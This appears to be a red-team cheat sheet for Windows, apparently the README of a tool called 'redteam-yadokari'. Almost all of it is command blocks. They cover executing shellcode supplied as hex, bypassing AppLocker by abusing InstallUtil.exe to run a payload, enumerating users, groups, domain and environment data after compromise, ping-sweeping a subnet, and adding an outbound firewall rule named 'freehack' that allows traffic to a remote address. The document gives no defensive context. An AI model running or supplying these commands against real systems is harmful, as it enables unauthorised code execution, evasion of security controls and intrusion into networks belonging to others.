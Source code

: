 # Windows

## Execution
### Process Injection
* execute shellcode in hex
```
.\redteam-yadokari.exe <hex>
```

* execute shellcode in hex bypassing AppLocker 
```
C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\Installutil.exe /logfile= /LogToConsole=false /payload=<hex> /U .\redteam-yadokari.exe"
```

## Post-Exploitation

### Basic Information
```cmd
whoami /all
systeminfo
hostname
net user
net user /domain
net localgroup
net group /domain
net start
net view
dir C:\Users
set
```

```powershell
Get-ChildItem Env:
```

### Network
```cmd
ipconfig /all
netstat -ano
arp -a
route print
for /L %i in (1,1,255) do @ping -n 1 -w 200 192.168.1.%i > nul && echo 192.168.1.%i is up.
```

* add firewall rule
```powershell
New-NetFirewallRule -Name 'freehack' -DisplayName 'freehack' -Description 'freehack' -Enabled True -Profile Any -Direction Outbound -Action Allow -Program Any -LocalAddress Any -RemoteAddress 192.168.2.1 -Protocol Any -LocalPort Any -RemotePort Any -LocalUser Any -RemoteUser Any
```
